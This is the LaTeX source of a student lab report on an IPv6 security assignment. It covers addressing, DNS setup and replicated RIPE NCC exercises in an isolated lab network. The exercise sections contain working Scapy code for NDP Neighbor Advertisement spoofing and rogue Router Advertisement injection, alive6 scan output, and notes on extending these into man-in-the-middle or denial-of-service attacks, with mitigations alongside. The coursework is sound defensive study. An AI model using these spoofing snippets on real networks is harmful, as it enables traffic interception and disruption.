\documentclass[twocolumn]{NobArticle}

\usepackage{tikz}
\usetikzlibrary{positioning, shapes.geometric, arrows.meta, fit, backgrounds, calc, decorations.pathreplacing}
\usepackage{subcaption}
\usepackage{listings}
\usepackage{float}

% Listings style for config snippets
\definecolor{codebg}{RGB}{248,248,248}
\definecolor{codeborder}{RGB}{210,210,210}
\definecolor{codecomment}{RGB}{80,140,80}
\definecolor{codeprompt}{RGB}{0,90,140}

\lstdefinestyle{conf}{
    basicstyle=\ttfamily\scriptsize,
    backgroundcolor=\color{codebg},
    frame=single,
    rulecolor=\color{codeborder},
    framerule=0.4pt,
    breaklines=true,
    columns=fullflexible,
    keepspaces=true,
    showstringspaces=false,
    commentstyle=\color{codecomment},
    numbers=none,
    xleftmargin=3pt,
    framexleftmargin=2pt,
    aboveskip=6pt,
    belowskip=4pt,
}
\lstset{style=conf}

% Running head and footer text
\runninghead{Practical Network Defense}
\footertext{ACME 30 A1 -- 2025/2026}

\title{ACME 30 -- Assignment no.\,1: IPv6 Security}

\author{
    Alberto Pulcini 2046542 \\
    Nicolò Piovan 2219663 \\
    Giovanni Colasuonno 2046000 \\
    Davide Nardoni 2060903
}

\date{\today}

\begin{document}

\maketitle
\thispagestyle{empty}

\section{Introduction}

This report describes the work carried out by our group for the first
assignment of the course. The activity was organised in the following phases:

\begin{enumerate}
    \item \textbf{Initial brainstorming}, where we discussed the goals of the
    assignment and decided how to approach the IPv6 addressing scheme and the
    security exercises.
    \item \textbf{IPv6 address assignment}, in which we designed and deployed
    the addressing plan on the ACME network, then verified that connectivity
    worked end-to-end.
    \item \textbf{DNS configuration}, to make every host reachable by name
    over both IPv4 and IPv6.
    \item \textbf{IPv6 security exercises}, where we reproduced the scanning
    and NDP-related exercises and collected the resulting evidence.
    \item \textbf{Final remarks}, summarising the lessons learned and the
    main difficulties encountered.
\end{enumerate}

The following sections detail each of these phases.

\section{Brainstorming}

Before touching any host we spent some time looking at the existing ACME
topology and at the constraints coming from the assignment, in order to agree
on a clean addressing strategy and on a method to carry out the security
exercises.

\subsection{Network overview}

The ACME-30 network (Figure~\ref{fig:topology}) is built around two
firewall-routers. The \textit{main firewall} faces the simulated Internet
through the WAN segment, terminates the OpenVPN connections coming from the
road warriors, and serves the DMZ and the external-services segment. The
\textit{internal firewall} sits behind the main one and isolates the internal
servers network (DNS, log server, Greenbone, Graylog) and the clients network
(PC, Kali, arpwatch). The two firewalls are connected through a dedicated
transit link.

\subsection{IPv6 addressing scheme}

The ISP delegates a single \texttt{/56} prefix
(\texttt{2001:470:b5b8:1e00::/56}) to our group, where the byte \texttt{1E}
matches our group number (30 in decimal). This leaves us with 8 free bits to
allocate among all internal subnets before reaching the standard \texttt{/64}
boundary used by SLAAC.

We decided to split these 8 bits in two nibbles, as shown in
Figure~\ref{fig:bits}: the upper one identifies which firewall the subnet sits
behind, while the lower one mirrors the third octet already used in the IPv4
plan. This way the IPv6 prefix of any subnet can be read directly from its
IPv4 address, which keeps documentation and troubleshooting much simpler.

\begin{figure}[H]
\centering

\begin{tikzpicture}[
  font=\sffamily\scriptsize,
  bitbox/.style={draw, minimum height=0.9cm, align=center, inner sep=2pt},
]
\node[bitbox, fill=blue!8, minimum width=3.2cm] (isp)
    {ISP prefix \\ \texttt{2001:470:b5b8::} \\ 48 bits};
\node[bitbox, right=0pt of isp, fill=orange!20, minimum width=1.1cm] (grp)
    {Group \\ \texttt{1E} \\ 8b};
\node[bitbox, right=0pt of grp, fill=green!18, minimum width=0.9cm] (fw)
    {FW \\ 4b};
\node[bitbox, right=0pt of fw, fill=green!8, minimum width=0.9cm] (sub)
    {Sub \\ 4b};
\node[bitbox, right=0pt of sub, fill=gray!12, minimum width=2cm] (iid)
    {Interface ID \\ 64 bits};

\draw[decorate, decoration={brace, amplitude=4pt, mirror}]
    ([yshift=-2pt]fw.south west) -- ([yshift=-2pt]sub.south east)
    node[midway, below=4pt] {our 8 bits of subnetting};
\end{tikzpicture}
\caption{Layout of the 128-bit IPv6 address. The 8 bits delegated to us are
split into a 4-bit firewall selector and a 4-bit subnet ID that mirrors the
IPv4 plan.}
\label{fig:bits}
\end{figure}

The upper nibble follows the convention
\texttt{0--7 = under main firewall}, \texttt{8--F = under internal firewall},
while the lower nibble reuses the third octet of the matching IPv4 prefix.
For example, the DMZ has IPv4 \texttt{100.100.6.0/24} and is reached through
the main firewall, so its IPv6 prefix becomes \texttt{1e06::/64}; the clients
network has IPv4 \texttt{100.100.2.0/24} behind the internal firewall, so it
becomes \texttt{1e82::/64}. Table~\ref{tab:prefixes} reports the full mapping
adopted for ACME-30.

\begin{table}[H]
\centering
\begin{tabular}{lll}
\toprule
\textbf{Segment} & \textbf{IPv4} & \textbf{IPv6 prefix} \\
\midrule
DMZ                 & 100.100.6.0/24   & \texttt{1e06::/64} \\
External services   & 100.100.4.0/24   & \texttt{1e04::/64} \\
FW transit link     & 100.100.254.0/30 & \texttt{1e0f::/64} \\
Internal servers    & 100.100.1.0/24   & \texttt{1e81::/64} \\
Clients             & 100.100.2.0/24   & \texttt{1e82::/64} \\
\bottomrule
\end{tabular}
\caption{Subnet-to-prefix mapping derived from the 4+4 bit rule.}
\label{tab:prefixes}
\end{table}

\subsection{Deployment plan}

For the configuration phase we agreed on a few common choices:

\begin{itemize}
    \item enable DHCPv6 and prefix delegation on the WAN of the main firewall
    to actually receive the \texttt{/56} from the ISP;
    \item on every downstream interface (both firewalls), use
    \textit{track-interface} so that subnets derive their \texttt{/64} from
    the delegated prefix according to the IDs in Table~\ref{tab:prefixes};
    \item allow IPv6 traffic on each interface with floating rules, mirroring
    the existing IPv4 policy;
    \item enable IPv6 privacy on the hosts by setting
    \texttt{addr\_gen\_mode = 3} in \texttt{sysctl}, so that the interface
    identifier is derived from a secret (RFC~7217~\cite{rfc7217}) instead
    of from the MAC address.
\end{itemize}

\section{IPv6 configuration}

The IPv6 plan was deployed on both firewalls following the configuration
approach described in the lab tutorial~\cite{ipv6video}, using prefix
delegation on the WAN and \textit{track-interface} on every downstream
segment, so that each subnet automatically receives the \texttt{/64}
corresponding to its assigned prefix ID. On the hosts we then enabled the privacy extensions described in
the brainstorming. The relevant \texttt{sysctl} configuration, persisted in
\texttt{/etc/sysctl.d/99-sysctl.conf}, is:

\begin{lstlisting}
net.ipv6.conf.eth0.stable_secret = 56:54:53:51:68:66:99:10
net.ipv6.conf.eth0.addr_gen_mode = 3
\end{lstlisting}

After the configuration the hosts obtain a proper global IPv6 address from
the firewall, as shown on the webserver in the DMZ:

\begin{lstlisting}
$ ip -6 addr show eth0
inet6 2001:470:b5b8:1e06:40fa:57ff:fe4a:2073/64
      scope global dynamic mngtmpaddr
inet6 fe80::40fa:57ff:fe4a:2073/64 scope link

$ ip -6 route
2001:470:b5b8:1e06::/64 dev eth0 proto kernel
default via fe80::44fd:65ff:fe1b:8895 dev eth0
        proto ra metric 1024
\end{lstlisting}

The \texttt{1e06} block in the global address confirms that the DMZ correctly
fell on the prefix planned for it in Table~\ref{tab:prefixes}.

\section{DNS configuration}

The DNS server (\texttt{dnsserver.acme-30.test}, \texttt{100.100.1.2}) runs
\texttt{dnsmasq}. The configuration in \texttt{/etc/dnsmasq.conf} declares the
local domain, binds the service to the management addresses only and forwards
unknown queries to public resolvers, while still answering authoritatively
for the internal records:

\newpage
\begin{lstlisting}
domain=acme-30.test
local=/acme-30.test/
expand-hosts
bogus-priv
bind-interfaces
listen-address=100.100.1.2,127.0.0.1,
  2001:470:b5b8:1e81:4730:4341:85e8:4a85
no-resolv
server=8.8.8.8
server=1.1.1.1
\end{lstlisting}

Each host of the ACME network is then registered in \texttt{/etc/hosts} with
both its IPv4 and its IPv6 address, so that name resolution works on either
family. An excerpt is:

\begin{lstlisting}
100.100.1.2  dnsserver.acme-30.test dnsserver
2001:470:b5b8:1e81:4730:4341:85e8:4a85
             dnsserver.acme-30.test dnsserver
100.100.6.2  webserver.acme-30.test webserver
2001:470:b5b8:1e06:40fa:57ff:fe4a:2073
             webserver.acme-30.test webserver
100.100.2.100 kali.acme-30.test kali
2001:470:b5b8:1e82:7ab2:ec67:312:97d9
             kali.acme-30.test kali
\end{lstlisting}

On every client we point \texttt{/etc/resolv.conf} to the DNS server using
both transports, after protecting the file from the Proxmox auto-rewrite
with \texttt{touch /etc/.pve-ignore.resolv.conf}:

\begin{lstlisting}
nameserver 100.100.1.2
nameserver 2001:470:b5b8:1e81:4730:4341:85e8:4a85
search acme-30.test
\end{lstlisting}

\section{Connectivity tests}

To validate the addressing and the DNS setup we ran a few quick checks from
the webserver in the DMZ towards the Kali host in the clients network: the
host is resolved by name and the ICMPv6 echo replies show that traffic is
routed across both firewalls.

\begin{lstlisting}
$ ping kali
PING kali(kali.acme-30.test
  (2001:470:b5b8:1e82:7ab2:ec67:312:97d9))
64 bytes from kali.acme-30.test
  (2001:470:b5b8:1e82:7ab2:ec67:312:97d9):
  icmp_seq=1 ttl=62 time=1.37 ms
64 bytes from kali.acme-30.test
  (2001:470:b5b8:1e82:7ab2:ec67:312:97d9):
  icmp_seq=2 ttl=62 time=1.79 ms

$ dig kali
;; ANSWER SECTION:
kali.                   0       IN  A   100.100.2.100
;; SERVER: 100.100.1.2#53(100.100.1.2)
\end{lstlisting}

The whole ACME-30 topology with the IPv4 and IPv6 prefixes finalised in this
phase is reported in Figure~\ref{fig:topology}.

\section{IPv6 security exercises}

We replicated three of the RIPE NCC IPv6 Security exercises~\cite{ripe} in
the ACME environment: a basic \textit{ping and sniff} session to inspect
the on-link IPv6 traffic, the \textit{network scanning} exercise and the
\textit{NDP threats} exercises based on NS/NA and on RS/RA spoofing. In all cases Kali, in the clients network,
plays the role of the attacker, while the targets sit in the DMZ or in the
clients network itself.

\subsection{Ping and sniff}

In the first exercise the webserver in the DMZ acts as the target. We
started a Scapy sniffer on its \texttt{eth0} interface, filtering only
packets carrying an IPv6 layer:

\begin{lstlisting}
>>> pkts = sniff(iface="eth0",
...     lfilter = lambda x: x.haslayer(IPv6))
\end{lstlisting}

From Kali we then issued a few \texttt{ping6} probes towards the webserver
and stopped the capture. The packet list collected by Scapy clearly shows
the typical IPv6 exchange between two unknown peers: the actual ICMPv6 echo
request/reply pair is preceded by a Neighbor Discovery handshake, in which
each host learns the link-layer address of the other through NS/NA
messages.

\begin{lstlisting}
>>> pkts.show()
0000 Ether / IPv6 / ICMPv6 Echo Request
0001 Ether / IPv6 / ICMPv6 Echo Reply
0002 Ether / IPv6 / ICMPv6ND_NS /
     ICMPv6 NDOpt SLLA 42:fa:57:4a:20:73
0003 Ether / IPv6 / ICMPv6 NA
     (tgt: fe80::44fd:65ff:fe1b:8895)
0004 Ether / IPv6 / ICMPv6ND_NS /
     ICMPv6 NDOpt SLLA 46:fd:65:1b:88:95
0005 Ether / IPv6 / ICMPv6 NA
     (tgt: 2001:470:b5b8:1e06:40fa:57ff:fe4a:2073)
0006 Ether / IPv6 / ICMPv6ND_NS /
     ICMPv6 NDOpt SLLA 46:fd:65:1b:88:95
0007 Ether / IPv6 / ICMPv6 NA
     (tgt: fe80::40fa:57ff:fe4a:2073)
0008 Ether / IPv6 / ICMPv6ND_NS /
     ICMPv6 NDOpt SLLA 42:fa:57:4a:20:73
0009 Ether / IPv6 / ICMPv6 NA
     (tgt: 2001:470:b5b8:1e06:44fd:65ff:fe1b:8895)
\end{lstlisting}

The two MACs involved in the source link-layer options correspond to the
webserver itself (\texttt{42:fa:57:4a:20:73}) and to the main firewall's
DMZ interface (\texttt{46:fd:65:1b:88:95}), which is the router used by the
webserver to reach Kali. The exchange shows both link-local
(\texttt{fe80::/64}) and global (\texttt{2001:470:b5b8:1e06::/64})
resolutions, confirming that the host advertises and resolves both scopes
through NDP as expected in IPv6.

\subsection{Network scanning}

The scan was performed from Kali on \texttt{eth0} using \texttt{alive6},
which does active host discovery by sending an ICMPv6 echo request to
\texttt{ff02::1} (all-nodes multicast) and collecting the replies:

\begin{lstlisting}
$ sudo atk6-alive6 eth0
Alive: 2001:470:b5b8:1e82:455:36ff:fea8:2642
   [ICMP parameter problem]
Alive: 2001:470:b5b8:1e82:b89d:d3ff:feec:ea07
   [ICMP parameter problem]
Alive: 2001:470:b5b8:1e82:64a3:2eff:fe83:1e7f
   [ICMP parameter problem]

Scanned 1 address and found 3 system alive
\end{lstlisting}

The three replies correspond, respectively, to the monitorserver, the
arpwatch-clients host and the internal firewall, i.e.\ all the other
on-link hosts in the clients network. The scan was also captured to a pcap
on arpwatch-clients and inspected with \texttt{tcpdump}:

\begin{lstlisting}
$ tcpdump -r net_scan.pcap
16:30:12.566524 IP6 ...:312:97d9 > ip6-allnodes:
  ICMP6, echo request, id 64206, seq 47806
16:30:12.566623 IP6 ...:feec:ea07 > ff02::1:ff12:97d9:
  ICMP6, neighbor solicitation,
  who has ...:312:97d9
16:30:12.566778 IP6 ...:fea8:2642 > ff02::1:ff12:97d9:
  ICMP6, neighbor solicitation,
  who has ...:312:97d9
16:30:12.566856 IP6 ...:312:97d9 > ip6-allnodes:
  DSTOPT ICMP6, echo request,
  id 64206, seq 47806
16:30:12.567155 IP6 ...:312:97d9 > ...:feec:ea07:
  ICMP6, neighbor advertisement,
  tgt is ...:312:97d9
16:30:12.567164 IP6 ...:feec:ea07 > ...:312:97d9:
  ICMP6, echo reply, id 64206, seq 47806
16:30:12.567165 IP6 ...:feec:ea07 > ...:312:97d9:
  ICMP6, parameter problem,
  option - octet 42
\end{lstlisting}

The IPv6 prefix \texttt{2001:470:b5b8:1e82:} has been elided on every line
for readability; the suffix \texttt{:312:97d9} identifies Kali, while
\texttt{:feec:ea07} and \texttt{:fea8:2642} are the arpwatch and monitorserver
hosts. The first echo request to \texttt{ff02::1} is answered with a normal
echo reply, while the second request (also generated by \texttt{alive6})
carries a Destination Options extension header (DSTOPT): the target parses
it and rejects it with a \textit{parameter problem} message. As described in
RFC~4890~\cite{rfc4890}, this is precisely what lets \texttt{alive6} detect
a host even when standard echo replies are filtered by a firewall.

We also tried the alternative tool \texttt{scan6 -L -i eth0}: the command
produced no observable ICMPv6 traffic and only listed the entries already
present in the local neighbour cache. So \texttt{alive6} is active and noisy
(easy to detect with any IDS), while \texttt{scan6 -L} is passive and
stealthier, at the cost of discovering only hosts the kernel already knows
about.

Some mitigations against this kind of discovery are, for example, the use of
hard-to-guess interface identifiers (RFC~7217~\cite{rfc7217},
RFC~8064~\cite{rfc8064}), rate-limiting of ICMPv6 on the firewall and
dedicated IDS rules on multicast traffic. Completely
filtering ICMPv6, however, is not viable because IPv6 itself depends on it
for NDP, PMTUD and SLAAC.

\subsection{NDP threats: NS/NA spoofing}

For the second exercise we followed the standard three-host scenario:

\begin{itemize}
    \item Host~C (attacker): \texttt{kali}
    \item Host~A (victim): \texttt{arpwatch-clients}
    \item Host~B (impersonated): \texttt{monitorserver}
\end{itemize}

After collecting MAC and IPv6 addresses of the three hosts we verified that
Host~A could legitimately reach Host~B and that its neighbour cache contained
the correct mapping:

\begin{lstlisting}
$ ip -6 neigh show
2001:470:b5b8:1e82:455:36ff:fea8:2642
   dev eth0 lladdr 06:55:36:a8:26:42 REACHABLE
\end{lstlisting}

We then crafted on Kali a forged Neighbor Advertisement with Scapy, claiming
that Host~B's IPv6 address resolves to the attacker's MAC address:

\begin{lstlisting}
d = IPv6(
   src="2001:470:b5b8:1e82:455:36ff:fea8:2642",
   dst="2001:470:b5b8:1e82:b89d:d3ff:feec:ea07")
e = ICMPv6ND_NA(R=0,
   tgt="2001:470:b5b8:1e82:455:36ff:fea8:2642")
f = ICMPv6NDOptDstLLAddr(
   lladdr="e6:80:50:76:15:46")
send(d/e/f)
\end{lstlisting}

Immediately after the injection, the neighbour cache of Host~A is poisoned
and the IPv6 address of monitorserver is now mapped to Kali's MAC:

\begin{lstlisting}
$ ip -6 neigh show
2001:470:b5b8:1e82:455:36ff:fea8:2642
   dev eth0 lladdr e6:80:50:76:15:46 STALE
\end{lstlisting}

From that moment on, every IPv6 frame that Host~A would send to Host~B is
delivered at layer~2 to the attacker, breaking the ping between the two
victims.

The effect is not permanent: as soon as the kernel revalidates the
\texttt{STALE} entry, the legitimate mapping is restored. To make the attack
persistent it is enough to keep injecting forged advertisements, for example
with \texttt{send(pkt, inter=1, loop=1)} in Scapy. The same technique can
also be extended to a Man-in-the-Middle attack by poisoning both directions
and enabling \texttt{net.ipv6.conf.all.forwarding=1} on Kali, so that the
attacker can transparently relay the traffic between the two victims.
Poisoning the entry of the default router instead of a normal host has an
even broader impact: the victim sends all the off-link traffic to the
attacker, leading either to a MITM on the whole external traffic or to a
denial of service if packets are simply dropped.

The standard countermeasures for these threats are the first-hop security
features available on managed switches (RA Guard, ND inspection, IPv6 source
and prefix guard, DHCPv6 guard), together with monitoring tools like NDPmon
or the very arpwatch-style detector running in our network.

\subsection{NDP threats: RS/RA bogus prefix}

The last exercise targets the other half of NDP~\cite{rfc4861}, namely the
Router Advertisement messages used by hosts to autoconfigure IPv6 addresses
and default routes through SLAAC~\cite{rfc4862}. The attack is again
executed from Kali against the arpwatch-clients host on the same Layer-2
segment.

Before the attack, the victim only has the legitimate IPv6 configuration
delegated by the internal firewall:

\newpage
\begin{lstlisting}
$ ip -6 addr show dev eth0
inet6 2001:470:b5b8:1e82:b89d:d3ff:feec:ea07/64
   scope global dynamic mngtmpaddr
inet6 fe80::b89d:d3ff:feec:ea07/64 scope link

$ ip -6 route show
2001:470:b5b8:1e82::/64 dev eth0 proto kernel
fe80::/64 dev eth0 proto kernel
default via fe80::64a3:2eff:fe83:1e7f
   dev eth0 proto ra metric 1024
\end{lstlisting}

From Kali we then crafted a forged Router Advertisement with Scapy,
sourced from a fake link-local address and announcing the bogus prefix
\texttt{2001:db8:bad:cafe::/64} with both the \texttt{L} (on-link) and
\texttt{A} (autonomous configuration) flags enabled:

\begin{lstlisting}
g = IPv6(src="fe80::a:b:c:d", dst="ff02::1")
h = ICMPv6ND_RA(M=0, O=0)
i = ICMPv6NDOptPrefixInfo(
       prefixlen=64,
       prefix="2001:db8:bad:cafe::",
       L=1, A=1)
pkt = g / h / i
send(pkt, iface="eth0")
\end{lstlisting}

The capture on the victim (\texttt{ra-bogus-prefix.pcap}) shows the rogue
RA followed by the Duplicate Address Detection NSs that the host
automatically performs on the new auto-configured addresses:

\begin{lstlisting}
$ tcpdump -r ra-bogus-prefix.pcap -nn -vv icmp6
23:37:46 IP6 fe80::a:b:c:d > ff02::1:
   ICMP6, router advertisement, length 48
   hop limit 0, router lifetime 1800s
   prefix info option (3):
      2001:db8:bad:cafe::/64,
      Flags [onlink, auto],
      valid time infinity
23:37:46 IP6 :: > ff02::1:ffec:ea07:
   ICMP6, neighbor solicitation,
   who has
   2001:db8:bad:cafe:b89d:d3ff:feec:ea07
23:37:47 IP6 :: > ff02::1:ffa8:2642:
   ICMP6, neighbor solicitation,
   who has
   2001:db8:bad:cafe:455:36ff:fea8:2642
\end{lstlisting}

After receiving the rogue RA, arpwatch-clients trusts it: it generates a
new SLAAC address from the bogus prefix, installs the on-link route for
\texttt{2001:db8:bad:cafe::/64} and adds the attacker as an additional
default gateway, with \texttt{pref high} which makes it preferred over the
legitimate one.

\begin{lstlisting}
$ ip -6 addr show dev eth0
inet6 2001:db8:bad:cafe:b89d:d3ff:feec:ea07/64
   scope global dynamic mngtmpaddr
inet6 2001:470:b5b8:1e82:b89d:d3ff:feec:ea07/64
   scope global dynamic mngtmpaddr
inet6 fe80::b89d:d3ff:feec:ea07/64 scope link

$ ip -6 route show
2001:470:b5b8:1e82::/64 dev eth0 proto kernel
2001:db8:bad:cafe::/64 dev eth0 proto kernel
default via fe80::64a3:2eff:fe83:1e7f
   dev eth0 proto ra metric 1024
default via fe80::a:b:c:d
   dev eth0 proto ra metric 1024 pref high
\end{lstlisting}

This is a textbook example of how a malicious host on the same Layer-2
segment can push arbitrary IPv6 configuration onto its neighbours just by
sending an unauthenticated RA. The standard mitigation is again RA Guard
on the access switches, which discards Router Advertisements coming from
ports that are not configured as router uplinks.

\section{Final remarks}

The ACME-30 network was successfully migrated to dual stack: every host
acquired the IPv6 prefix planned in Table~\ref{tab:prefixes} from the
delegated \texttt{/56}, and the DNS server resolves all the internal names
on both transports. The reproduced exercises confirmed that, when run on a
plain Layer-2 segment, IPv6 is just as vulnerable to neighbour and router
spoofing as IPv4 is to ARP poisoning, with the additional risk of fully
automatic SLAAC-driven misconfiguration.

The good news is that the corresponding mitigations are well known and
already implemented in modern access equipment. In our setup the most
effective hardening steps would be: enabling \textit{RA Guard} and
\textit{ND inspection} (with \textit{IPv6 source/prefix guard} and
\textit{DHCPv6 Guard}) on the switches that connect the clients and DMZ
segments, so that rogue RAs and spoofed NS/NA messages are dropped before
reaching the hosts; keeping the privacy-stable interface identifiers
already configured via \texttt{addr\_gen\_mode = 3} to make passive
scanning much harder; and feeding the existing log and monitor servers
with NDP-aware detectors (e.g.\ NDPmon, or extending the arpwatch host
to IPv6) so that any anomalous neighbour-cache or router change generates
an alert. Together these measures would turn the issues observed in the
exercises into events that are either blocked at the switch level or
promptly visible to the operations team.

\newpage
\begin{thebibliography}{9}

\bibitem{rfc4861}
T.~Narten, E.~Nordmark, W.~Simpson, H.~Soliman,
\textit{Neighbor Discovery for IP version 6 (IPv6)},
RFC~4861, September 2007.
\url{https://datatracker.ietf.org/doc/html/rfc4861}

\bibitem{rfc4862}
S.~Thomson, T.~Narten, T.~Jinmei,
\textit{IPv6 Stateless Address Autoconfiguration},
RFC~4862, September 2007.
\url{https://datatracker.ietf.org/doc/html/rfc4862}

\bibitem{rfc4890}
E.~Davies, J.~Mohacsi,
\textit{Recommendations for Filtering ICMPv6 Messages in Firewalls},
RFC~4890, May 2007.
\url{https://datatracker.ietf.org/doc/html/rfc4890}

\bibitem{rfc7217}
F.~Gont,
\textit{A Method for Generating Semantically Opaque Interface Identifiers
with IPv6 Stateless Address Autoconfiguration (SLAAC)},
RFC~7217, April 2014.
\url{https://datatracker.ietf.org/doc/html/rfc7217}

\bibitem{rfc8064}
F.~Gont, A.~Cooper, D.~Thaler, W.~Liu,
\textit{Recommendation on Stable IPv6 Interface Identifiers},
RFC~8064, February 2017.
\url{https://datatracker.ietf.org/doc/html/rfc8064}

\bibitem{ripe}
RIPE NCC,
\textit{IPv6 Security -- Course Exercises}, 30 September 2024.
\url{https://www.ripe.net/media/documents/IPv6Security-Exercises_30.09.24.pdf}

\bibitem{ipv6video}
\textit{IPv6 configuration with prefix delegation -- ACME lab tutorial}.
\url{https://www.youtube.com/watch?v=zGnpZnxWQ5c}

\end{thebibliography}

\begin{figure*}[!t]
\centering

\begin{tikzpicture}[
  font=\sffamily,
  node distance=0.9cm and 1.1cm,
  fw/.style={draw, rounded corners=3pt, fill=blue!12, minimum width=2.6cm,
             minimum height=1cm, align=center, font=\small\bfseries},
  net/.style={draw, fill=gray!10, rounded corners=2pt, minimum width=3cm,
              minimum height=0.9cm, align=center, font=\scriptsize},
  host/.style={draw, dashed, fill=white, minimum width=3cm,
               minimum height=0.7cm, align=center, font=\scriptsize},
  cloud/.style={draw, ellipse, fill=blue!5, minimum width=2cm,
                minimum height=0.9cm, font=\small},
  link/.style={-Stealth, semithick, draw=black!65},
]

\node[cloud] (inet) {Internet};
\node[cloud, right=4cm of inet] (rw) {Road warriors};

\node[fw, below=1cm of $(inet)!0.5!(rw)$] (mfw)
    {Main Firewall \\ \scriptsize 2001:470:b5b8:1e00::/56 (PD)};

\node[net, below left=1.2cm and 0.4cm of mfw] (dmz)
    {\textbf{DMZ} \\ 100.100.6.0/24 \\ 2001:470:b5b8:1e06::/64};
\node[net, below=1.2cm of mfw] (ext)
    {\textbf{External services} \\ 100.100.4.0/24 \\ 2001:470:b5b8:1e04::/64};
\node[net, below right=1.2cm and 0.4cm of mfw] (link)
    {\textbf{FW link} \\ 100.100.254.0/30 \\ 2001:470:b5b8:1e0f::/64};

\node[host, below=0.35cm of dmz] (dmzh)
    {Web .2 \quad Proxy .3};
\node[host, below=0.35cm of ext] (exth)
    {client-ext-1 \quad fantasticcoffee .10};

\node[fw, below=1.2cm of link] (ifw) {Internal Firewall};

\node[net, below left=1.1cm and 0.2cm of ifw] (srv)
    {\textbf{Internal servers} \\ 100.100.1.0/24 \\ 2001:470:b5b8:1e81::/64};
\node[net, below right=1.1cm and 0.2cm of ifw] (cli)
    {\textbf{Clients} \\ 100.100.2.0/24 \\ 2001:470:b5b8:1e82::/64};

\node[host, below=0.35cm of srv] (srvh)
    {DNS .2 \quad Log .3 \\ Greenbone .4 \quad Graylog .10};
\node[host, below=0.35cm of cli] (clih)
    {PC/Kali .100 \quad Arpwatch .254};

\draw[link] (inet) -- (mfw);
\draw[link] (rw) -- node[midway, right, font=\scriptsize] {VPN} (mfw);
\draw[link] (mfw) -- (dmz);
\draw[link] (mfw) -- (ext);
\draw[link] (mfw) -- (link);
\draw[link] (dmz) -- (dmzh);
\draw[link] (ext) -- (exth);
\draw[link] (link) -- (ifw);
\draw[link] (ifw) -- (srv);
\draw[link] (ifw) -- (cli);
\draw[link] (srv) -- (srvh);
\draw[link] (cli) -- (clih);

\end{tikzpicture}
\caption{ACME-30 network topology with the IPv4 subnets and the corresponding
IPv6 prefixes derived from the \texttt{/56} delegated by the ISP.}
\label{fig:topology}
\end{figure*}

\end{document}
